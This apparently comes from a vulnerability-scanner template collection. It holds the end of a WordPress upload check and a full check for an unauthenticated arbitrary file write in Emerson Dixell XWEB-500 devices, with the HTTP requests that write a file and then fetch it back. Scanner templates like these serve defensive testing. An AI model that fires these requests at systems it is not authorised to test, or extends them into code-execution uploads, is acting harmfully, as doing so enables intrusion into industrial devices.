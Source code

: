 ### Step - 2

```
GET /wp-content/uploads/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. fe394b60dc324c3bac3060d600ad4349

**Type - status**

- status
  1. 200

---

# Emerson Dixell XWEB-500 - Arbitrary File Write

## Description

- Emerson Dixell XWEB-500 products are affected by arbitrary file write vulnerabilities in /cgi-bin/logo_extra_upload.cgi, /cgi-bin/cal_save.cgi, and /cgi-bin/lo_utils.cgi. An attacker will be able to write any file on the target system without any kind of authentication mechanism, and this can lead to denial of service and potentially remote code execution. Note that this product has not been supported since 2018 and should be removed or replaced.
- severity - critical
- tags - lfw,iot,dixell,xweb500,edb,fileupload,intrusive

## Requests

### Step - 1

```
POST /cgi-bin/logo_extra_upload.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/octet-stream

{{randstr}}.txt
dixell-xweb500-filewrite

```

### Step - 2

```
GET /logo/{{randstr}}.txt HTTP/1.1
Host: {{Hostname}}

```

